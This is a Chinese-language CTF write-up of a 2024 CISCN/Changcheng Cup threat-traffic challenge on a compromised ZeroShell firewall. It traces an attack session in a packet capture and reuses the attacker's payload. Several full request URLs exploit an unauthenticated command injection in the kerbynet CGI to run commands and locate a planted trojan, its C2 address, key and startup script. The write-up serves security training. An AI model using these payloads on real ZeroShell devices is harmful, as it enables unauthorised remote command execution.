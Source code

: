 ```yaml
---
title: 2024长城杯&CISCN-威胁流量分析-zeroshell
subtitle:
date: 2025-03-14T14:47:04+08:00
slug: 2cd83e6
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 玄机
categories:
  - 玄机
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

```
1.从数据包中找出攻击者利用漏洞开展攻击的会话（攻击者执行了一条命令)，写出该会话中设置的flag。
2.通过漏洞利用获取设备控制权限，然后查找设备上的flag文件，提取flag文件内容。
3.找出受控机防火墙设备中驻留木马的外联域名或IP地址，结果提交形式：flag{xxxx}，如flag{www.abc.com}或flag{16.122.33.44}
4.请写出木马进程执行的本体文件的名称，结果提交形式：flag{xxxx}，仅写文件名不加路径
5.请提取驻留的木马本体文件，通过逆向分析找出木马样本通信使用的加密密钥。结果提交形式
6.请写出驻留木马的启动项，注意写出启动文件的完整路径。结果提交形式：flag{xxxxxxx}，如flag{/a/b/c}
```

1、分析流量包，防火墙的ip为`61.139.2.100`，猜测攻击为web的HTTP，

```
ip.addr == 61.139.2.100 && http
```



![](images/38b6d72a4d22107cbd249efd5ffbad5d.png)
追踪HTTP流，



![](images/f83580bcd2882c95e27bf21748f56e01.png)
从Get可知，执行了`ps -ef`命令，才会有这个回显，对Referer部分base64解码

![](images/74f69a89d02667d5c958136e5ff24adb.png)
拿到第一题flag：flag{6C2E38DA-D8E4-8D84-4A4F-E2ABD07A1F3A}

2、第一问的分析过程中，发现执行了`ps -ef`命令，说明存在命令执行RCE。根据第一问分析过程中的playload去进行攻击，仅需要修改`ps -ef`命令部分，即可去查找flag文件
修改前：

``` 
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='ps -ef'%0A'
```

修改后：

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='find / -name 'flag''%0A'
```

仅把`ps%20-ef`修改为`find%20/%20-name%20'flag'` 

![](images/fa1ff9a727f1e891ec8f29944d62c932.png)
发现了flag文件，按照顺序尝试进行读取，还是现成的playload构造`tac`指令，拿到/Database/flag文件内容。

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='cat /Database/flag'%0A'
```



![](images/1334dd4dbdfaa34a6170ff4d7981e78d.png)
拿到第二问flag：flag{c6045425-6e6e-41d0-be09-95682a4f65c4}

3、找出驻留木马的外联域名，意思就是我们现在需要去获得当前系统的网络连接、路由表、接口信息等，在linux中需执行`netstat -anop`，根据给出的playload继续打

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='netstat -anop'%0A'
```

在url前加上view-source:应该更容易观察、分析

```
view-source:http://61.139.2.100/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='netstat -anop'%0A'
```



![](images/e20fc419674daa34377b7cb223083da1.png)
发现一个特殊ip，应该就是要寻找的ip
第三问flag：flag{202.115.89.103}

4、木马进程执行的本体文件的名称，上一问，我们在分析木马ip时同时找出来运行的pid，继续用playload执行`ls -l /proc/10541`命令，pid为`10541`的文件就是本体文件

```
cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='ps'%0A'
```



![](images/47dd08b932623b9d070f49da6fb33d43.png)
第四问flag：flag{.nginx}

第五问让我们寻找加密密钥，我们先把`.nginx`文件down到本地。先找到`.nginx`文件的具体位置，用`cat`查看`.nginx`。
`ls -l /proc/10541`查找具体路径

``` 
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='ls%20-l /proc/10541'%0A'
```



![](images/11ee9d23d5a06bf3fb8dd4050251fd4f.png)
再用`cat`查看

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='cat /tmp/.nginx'%0A'
```

尝试再页面内搜索`202.115.89.103`恶意ip

![](images/5a6fe911cc960783f86241691f3ab12c.png)
发现其后跟着一堆数字字母，猜测是密钥了
第五问flag：flag{11223344qweasdzxc}

6、已经知道木马文件的名称了，直接使用`grep`查找，尝试在各个目录里查找，最后在`/var`目录发现

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='grep -r ".nginx" /var'%0A'
```



![](images/bb68f1b78c46f3439e9ca232aa417f78.png)
第六问flag：flag{/var/register/system/startup/scripts/nat/File}
